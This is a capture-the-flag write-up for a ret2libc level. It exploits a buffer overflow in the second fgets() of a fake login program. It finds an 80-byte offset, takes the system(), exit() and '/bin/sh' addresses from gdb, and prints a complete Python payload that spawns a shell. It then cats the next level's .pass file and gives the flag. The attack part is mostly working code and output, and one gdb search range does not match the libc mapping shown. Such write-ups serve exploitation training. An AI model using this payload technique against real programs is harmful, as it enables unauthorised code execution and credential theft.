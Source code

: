 
# Ret2libc again

## Program summary

This level involves exploiting a program emulating an authentication system.
The program verifies the username and password using specific functions such as **`verify_user_name()`** and **`verify_user_pass()`**.  The one that processes the username leaves the verification data visible, the username is **dat_wil**, this data is stored at address **`0x80486a8`**.

## Vulnerability

The program's vulnerability lies in the second **`fgets()`** function.
```
0x8048574 <main+164>    call   0x8048370 <fgets@plt>
```
By injecting an offset pattern we can calculate the exact distance between the buffer and the location of the saved **`$RIP / $EIP`**, and we can see that we can overwrite this memory location. 

## Attack design

To successfully exploit the vulnerability, we’ll use a **ret2libc**, you need to perform the following steps in order to achieve this :

1. Get Offset
> Offset pattern: LAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

`Program received signal SIGSEGV, Segmentation fault. 0x37634136 in ?? ()`

Our offset is therefore 80 Bytes according to the **0x37634136** value (I did this manipulation with an Buffer overflow pattern generator).

3. Retrieve the **`system()`** address :
```c
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

4. Retrieve **`exit()`** address :
```c
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

5. Find **`"/bin/sh"`** string address in libc-2.15.so using **`find`** command :
```
(gdb) info proc map
process 1865
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
...
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
...

(gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

This payload will allow us to exploit the flaw present here :

```c
python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/boom
cat /home/users/level02/.pass
```

> Flag : `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`
